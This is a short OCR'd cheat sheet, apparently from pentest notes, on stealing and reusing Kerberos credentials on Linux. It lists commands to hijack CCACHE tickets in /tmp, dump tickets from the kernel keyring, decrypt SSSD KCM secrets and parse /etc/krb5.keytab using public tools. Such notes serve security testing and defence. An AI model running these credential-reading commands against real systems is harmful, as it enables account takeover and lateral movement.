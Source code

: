 # CCACHE Ticket reuse 

### When tickets are set to be stored as a file on disk, the standard format and type is a CCACHE file. This is a simple binary file format to store Kerberos credentials. These files are typically stored in /tmp and scoped with 600 permissions

### List the current ticket used for authentication with env | grep KRB5CCNAME . The format is portable and the ticket can be reused by setting the environment variable with export KRB5CCNAME=/tmp/ticket.ccache . Kerberos ticket name format is krb5cc_%{uid} where uid is the user UID.

## From /tmp

 - ls /tmp/ | grep krb5cc

 - export KRB5CCNAME=/tmp/krb5cc_1569901115

## From keyring

### Tool to extract Kerberos tickets from Linux kernel keys: https://github.com/TarlogicSecurity/tickey

#### 1) Configuration and build

 - git clone https://github.com/TarlogicSecurity/tickey

 - cd tickey/tickey

 - make CONF=Release

 - /tmp/tickey -i

## From SSSD KCM

### SSSD maintains a copy of the database at the path /var/lib/sss/secrets/secrets.ldb . The corresponding key is stored as a hidden file at the path /var/lib/sss/secrets/.secrets.mkey . By default, the key is only readable if you have root permissions.

### Invoking SSSDKCMExtractor with the --database and --key parameters will parse the database and decrypt the secrets.

 - git clone https://github.com/mandiant/SSSDKCMExtractor

 - python3 SSSDKCMExtractor.py --database secrets.ldb --key secrets.mkey

### The credential cache Kerberos blob can be converted into a usable Kerberos CCache file that can be passed to Mimikatz/Rubeus.

## From keytab

 - git clone https://github.com/its-a-feature/KeytabParser

 - python KeytabParser.py /etc/krb5.keytab

 - klist -k /etc/krb5.keytab
